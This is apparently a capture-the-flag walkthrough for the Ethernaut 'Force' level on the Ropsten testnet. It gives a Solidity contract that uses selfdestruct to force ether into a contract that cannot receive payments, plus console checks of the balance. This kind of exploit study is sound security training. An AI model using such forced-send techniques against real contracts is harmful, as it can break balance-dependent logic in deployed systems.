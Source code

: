 force 

// contract has no logic built in it; empty contract

// this does NOT mean that contract cannot have a balance > 0!

// though contract is not explicitly payable, contract CAN still receive funds as the recipient of a selfdestruct being called on another function


*contracts attacking contracts*

```javascript
instance // => returns contract address (Ropsten)
await getBalance(instance) // => returns 0 indicating the contract holds no funds at the moment
```

---

to Remix!

---

create new contract! (CAUTION: disposable code ahead..)

```solidity
pragma solidity ^0.4.15;

contract ForceEth {
	// create state variable for readability
	address private forceContract; 

	// constructor
	// insert contract address as constructor parameter (returned from calling 'instance' in JS console above)
	function ForceEth(address _addr) public payable {
		forceContract = _addr;
	}

	function kill() public {
		// pass in forceContract state variable as argument for suicide
		selfdestruct(forceContract); // selfdestruct => alias for suicide
	}

	function() payable { }
}
```

- deploy using injectedWeb3 enviro - Ropsten - (passing in some eth amount to value, and address of ethernaut 'Force' contract instance)
- once contract successfully deployed, kill it!

---

back to the console!

---

```javascript
await getBalance(instance) // => returns whatever amount of eth you passed in when deploying the ForceEth contract...no longer 0!
```
